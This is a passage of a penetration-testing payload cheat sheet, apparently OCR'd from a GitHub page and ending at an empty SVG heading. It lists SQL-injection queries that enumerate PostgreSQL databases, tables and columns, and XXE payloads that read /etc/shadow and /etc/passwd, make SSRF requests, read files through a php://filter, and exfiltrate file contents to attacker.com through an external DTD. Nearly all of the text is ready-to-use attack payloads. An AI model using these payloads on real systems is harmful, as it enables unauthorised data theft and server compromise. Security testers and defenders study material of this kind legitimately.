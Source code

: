 ```
- limit
limit <count>
limit <count> offset <skip>

- etc
select current_database()
select string_agg(table_name, ',') from information_schema.tables
string_agg(column_name, ','), null, null, null from information_schema.columns where table_name = <table_name>
select string_agg(<column_name>), null, null, null from <table_name>
```

---
## XXE
### Original

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE burp [<!ENTITY burp SYSTEM "file:///etc/shadow"> ]>
<lfi>&burp;</lfi>
```

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE burp [<!ENTITY burp system "domain"> ]>
<ssrf>&burp;</ssrf>
```

```xml
<burp xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></burp>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE burp [
<!ENTITY burp SYSTEM "php://filter/read=convert.base64-encode/resource=****">]>
<lfi>&burp;</lfi>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % xxe SYSTEM "http://ip/poc.dtd">
%xxe;
]>

// http://ip/poc.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

---
### feat svg
